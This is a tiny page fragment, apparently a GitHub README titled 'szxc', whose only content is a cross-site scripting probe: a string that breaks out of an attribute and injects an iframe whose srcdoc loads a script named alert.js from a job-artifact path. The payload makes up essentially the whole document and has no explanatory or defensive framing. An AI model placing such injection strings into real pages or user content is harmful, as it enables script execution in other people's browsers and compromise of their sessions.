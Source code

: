 # szxc
"'>&lt;iframe/srcdoc='&lt;script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js>&lt;/script>'>&lt;/iframe>"
